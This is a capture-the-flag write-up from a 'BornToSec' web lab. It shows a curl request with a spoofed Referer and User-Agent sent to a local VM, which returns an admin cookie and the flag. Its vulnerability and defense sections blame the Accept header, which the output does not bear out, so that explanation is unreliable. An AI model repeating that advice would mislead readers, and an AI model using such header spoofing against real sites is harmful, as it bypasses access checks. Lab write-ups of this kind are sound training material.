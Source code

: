 # Accept_header

## Description

We click on the footer BornToSec
we end on a page with some text and a picture
if we inspect the html we find comments in the hmtl
and some clues:
-> You must cummin from "https://www.nsa.gov/ ...
-> Let's use this browser: "ft_bornToSec" ...
We understadn that we need to modify our http headers and request this page with curl

Here the vulnerabilitie is due to the Accept header */*

## Attack

        $ bash attack.sh
        % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                        Dload  Upload   Total   Spent    Left  Speed
        0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 192.168.56.101:80...
        * Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
        > GET /index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1
        > Host: 192.168.56.101
        > Accept: */*
        > Referer: https://www.nsa.gov/
        > User-Agent: ft_bornToSec
        > 
        * Mark bundle as not supporting multiuse
        < HTTP/1.1 200 OK
        < Server: nginx/1.4.6 (Ubuntu)
        < Date: Thu, 28 Jul 2022 14:03:43 GMT
        < Content-Type: text/html
        < Transfer-Encoding: chunked
        < Connection: keep-alive
        < X-Powered-By: PHP/5.5.9-1ubuntu4.29
        < Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Thu, 28-Jul-2022 15:03:43 GMT; Max-Age=3600
        < 
        { [6054 bytes data]
        100  6041    0  6041    0     0   555k      0 --:--:-- --:--:-- --:--:-- 2949k
        * Connection #0 to host 192.168.56.101 left intact
        <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">

The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Defense

To prevent this we should set the Accept policie to only trusted urls and not */*